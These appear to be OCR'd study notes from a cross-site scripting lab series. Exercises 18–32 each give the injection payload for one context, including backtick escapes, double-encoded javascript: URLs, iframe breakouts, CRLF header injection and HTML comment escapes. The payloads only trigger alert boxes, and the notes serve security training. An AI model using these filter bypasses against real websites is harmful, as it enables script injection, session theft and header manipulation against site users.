 o	Exercise 18: asdf`-alert(1)-`
o	Exercise 19: asdf\`;alert(1)//
•	Exercise 20 Filtered Injection in Javascript Variable – Backticks Delimiter
o	In this case we are not able to get out from `asdf` even if we use `aasd\` it will give us result `asdf\\\``
o	So we use ${} bcz it can work inside ``
o	asdf${alert(1)}
•	Exercise 21 Validated Injection in HTTP Reference
o	It is a regex
o	we can’t replace the whole value
o	https://www.google.com/search?q=brutelogic
o	able to remove only some strings, after removing it looks like
	STRING:// STRING? STRING this is the main structure, and we have to make payload as this structure.
	javascript://alert(1)? STRING but here // making single line comment so we need to get help of Decoder
	In decoder we use %0a for new line and %25 for double encoded so it’d be like %250a
	Or we can just use %25%30%61 instead %0a
	javascript://%25%30%61alert(1)?STRING
•	Exercise 22 Injection in Iframe Tag
o	asdf"></iframe><img src=x onerror=confirm(1)>
o	asdf"></iframe><img+src%3dx+onerror%3dconfirm(1)> (CTRL + U to encode in URL)
•	Exercise 23 Injection in HTTP Header
o	CRLF => Carriage Return + Line Feed
	In Program
•	\r for Carriage Return
•	\n for Line Feed
	In URL Encoding
•	%0d for Carriage Return
•	%0a for Line Feed
o	So it’d be like %0d%0a
o	asdf%0d%0aXSS:%201 this is the CRLF injection attack used to set the cookies in victim’s browser. And we can add headers here.
o	So able to add header so able to change Content—Type
o	asdf%0d%0aContent—Type:+text/html
o	asdf<script>alert(1)</script>%0d%0aContent-Type:+text/html
•	Exercise 24 Filtered Double Injection in Javascript Variable  
o	Here ‘ getting encoded and its using sanitizes
o	-alert(1)//asdf\
•	Exercise 28 Injection in HTML Comments
o	
o	To get out from HTML comment, put --> before payload.
o	-->asdf<script>alert(1)</script>
•	Exercise 29 Filtered Injection in HTML Comments
o	It is a regex
o	
o	<script>alert(1)</script>+-->
•	Exercise 31 Injection in Script Tag With Header
o	Here we can add header before “Accept:” header.
	ASDF: xss 
•	(<script>var headers ="asdf":"xss",</script>)
o	xss</script><script>alert(1)</script>
OR
o	We can manipulate path to get reflect.
	GET /gym.php?random
	GET /gym.php/asdf
o	<form action="/gym.php/asdf" method="POST">
o	To get out from tag, Payload:
	asdf"><script>alert(1)</script>
•	Exercise 32 Injection in URL
o	Directly put into the URL (manipulate path)
o	/asdf"><script>alert(1)</script>